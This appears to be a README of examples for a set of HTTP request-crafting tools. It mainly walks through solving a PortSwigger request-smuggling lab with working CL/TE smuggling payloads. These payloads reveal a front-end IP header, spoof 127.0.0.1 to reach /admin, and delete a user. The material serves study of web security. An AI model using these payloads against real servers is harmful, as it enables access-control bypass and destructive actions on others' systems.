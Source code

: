 # Examples


Use example of:
* [`httpcustomhouse`](https://github.com/ariary/HTTPCustomHouse): to simulate server behavior regarding `Content-Length` and chunk encoding
* [`httpoverride`](https://github.com/ariary/HTTPCustomHouse): to change headers of raw request for people not at ease with `sed` 
* [`httpecho`](https://github.com/ariary/httpecho): HTTP echo server echoing request exactly as it is received
* [`httpclient`](https://github.com/ariary/HTTPCustomHouse): `curl` for raw packet because curl, golang http client rewrite packet and `ncat` or `openssl s_client` aren't satisfying

## Analyze `TE.CL` request treatment

As we want to see how a request is treated and thus how we could interfere this treatment, we will simulate it.

**First**, The front-end server treats the request using `Content-Length` header:
```shell
cat request | httpcustomhouse -cl
## Output is the request transmitted to front-end
```

**Then**, The front use `chunk` encoding to parse HTTP request:
```shell
cat request | httpcustomhouse -cl | httpcustomhouse -te
## Output is the request treated by back end
```

**Finally**, if we want to see if there is some part of `request` that hasn't been treated by backend and thus will be interpreted as the beginning of the next request:
```shell
cat request | httpcustomhouse -cl | httpcustomhouse -te -r
## Output is the request treated by back end
## Color output: the part of the request not treated by backend
## TRICK: add 2>&1 >/dev/null at the end to only obtain the non-treated part
```

## Analyze `CL.TE` request treatment

Same as [`TE.CL`](#analyze-tecl-request-treatment) idea:

First parse request using `chunk` encoding, then using `Content-Length` and finally print part of the request not already treated by back end:
```shell
cat request | httpcustomhouse -te | httpcustomhouse -cl -r
## Output is the request treated by back end
## Color output: the part of the request not treated by backend
## TRICK: add 2>&1 >/dev/null at the end to only obtain the non-treated part
```



## Exploiting HTTP request smuggling to reveal front-end request rewriting

The following example is an alternative to PortSwigger Burp solution for their [lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting).


Also to reproduce steps, Export an env var for the lab endpoint:
```shell
export LAB_URL=[YOUR_LAB_URL]
```

Browsing `/admin` endpoint we've got: `Admin interface only available if logged in as an administrator, or if requested from 127.0.0.1`

We also know that:
* The front-end server adds an HTTP header to incoming requests containing their IP address. We have to find its name
* The front-end does not support chunk encoding


### I - Find a POST parameter that is reflected in response
use [`arjun`](https://github.com/s0md3v/Arjun), a tool to detect parameters for URL:
```shell
arjun -u https://$LAB_URL
[...]
[+] Heuristic scanner found 1 parameter: search
```

Confirm with it curl request:
```shell
curl -X POST https://$LAB_URL -s --data "search=toto" | grep "toto" -C 10 --color
[...]                    <section class=blog-header>
                        <h1>0 search results for 'toto'</h1>
                        <hr>
                    </section>
[...]
```
Indeed, the `search` parameter is reflected in h1 tag

### II - Construct legitimate request that reflect parameters
```shell
# in one shell
httpecho -d search
# in another shell
curl -X POST http://localhost:8888/ --data "search=toto" -H "Host: $LAB_URL" -H 'User-Agent:'  -H 'Accept:'
# empty headers to withdraw curl default ones
```

### III - Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal

To smuggle the request "embed" it in a normal request. The request will include a large Content-Length. As the back-end use it, it will also include the first characters of the next request (which is provided by front end) **=> Added front-end headers can thus be accessible in the response 💥**:

***The request:***
```shell
POST / HTTP/1.1
Host: [LAb_URL]
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0         #<---- End of 1st request for back-end

POST / HTTP/1.1   #<---- Begin of 2nd request for back-end
Content-Type: application/x-www-form-urlencoded
Content-Length: 200 #<---- Make back-end waiting for 200 bytes to treat it has a full request
Connection: close

search=test #<---- End of 1st request for front-end, backend waiting for the other bytes
```

To construct this request:

**1.** Modify the search request with a larger `Content-Length` + w/o `Host` + add `Connection: close` (close teh Connection between server and client to be sure to get the response):
```shell
cat search | httpoverride -cl 200 -H Host -H "Connection:close" > search_modify
```

**2.** Add end of chunk encoding before the `search_modify` request, it is the payload:
```shell
# Add end of chunk encoding:
printf "0\r\n\r\n$(cat search_modify)" > payload
```

**3.** Construct the smuggle request (with `httpecho`):
```shell
curl -s -X POST http://localhost:8888/ --data-binary "@payload" -H "Host: $LAB_URL" -H 'User-Agent:'  -H 'Accept:' | httpoverride --chunked > smuggle

```

Send the request:
```shell
cat smuggle | httpclient https://$LAB_URL
```

💥 Send it twice. In the second response, as expected we obtain the header of the request including one adde by front-end: (search for `X-*-IP` after search):
```shell
cat smuggle | httpclient https://$LAB_URL > smuggle_response
# To directly have Header value
cat smuggle_response| grep searc -A 1 -m 1 | cut -d ":" -f 1 | cut -d$'\n' -f2
```

**We now have our secret header to overwrite: `X-*-IP`**

### IV - Use secret header to reach admin panel

Smuggle a request with the secret header pointing to 127.0.0.1. We includ it in a smuggled request to prevent it from being rewritten by front-end

```shell
POST / HTTP/1.1
Host: [LAB_URL]
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0           # <---- End of 1st request for back-end

GET /admin HTTP/1.1       # <---- Second request for back-end
X-*-Ip: 127.0.0.1     # <---- Secret Header
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```

Construct this request:
```shell
export SERCRET_HEADER=[secret_header]
#Launch server
httpecho -s
# Construct a POST request to /admin
curl -s http://localhost:8888/admin -X GET --data "x=1" -H "Content-Length: 10" -H "Connection: close" -H 'User-Agent:'  -H 'Accept:' > admin
cat admin | httpoverride -H "Host:" -H "$SECRET_HEADER: 127.0.0.1" > admin_modify
# Adjust body to smuggle post_admin_modify request
printf "0\r\n\r\n$(cat admin_modify)" > payload
curl -s -X POST http://localhost:8888/ --data-binary "@payload" -H "Host: $LAB_URL" -H 'User-Agent:'  -H 'Accept:' | httpoverride --chunked > smuggle
# Perform the request
cat smuggle | httpclient https://$LAB_URL
```

#### Delete user

Same thing as above, this time ask for `/admin/delete?username=carlos` endpoint
```shell
#Launch server
httpecho -s
# Construct a POST request to /admin to delete user
curl -s http://localhost:8888/admin/delete?username=carlos -X GET --data "x=1" -H "Content-Length: 10" -H "Connection: close" -H 'User-Agent:'  -H 'Accept:' > delete
cat delete | httpoverride -H "Host:" -H "$SECRET_HEADER: 127.0.0.1" > delete_modify
# Adjust body to smuggle post_admin_modify request
printf "0\r\n\r\n$(cat delete_modify)" > delete_payload
curl -s -X POST http://localhost:8888/ --data-binary "@delete_payload" -H "Host: $LAB_URL" -H 'User-Agent:'  -H 'Accept:' | httpoverride --chunked > delete_smuggle
# Perform the request
cat delete_smuggle | httpclient https://$LAB_URL
```
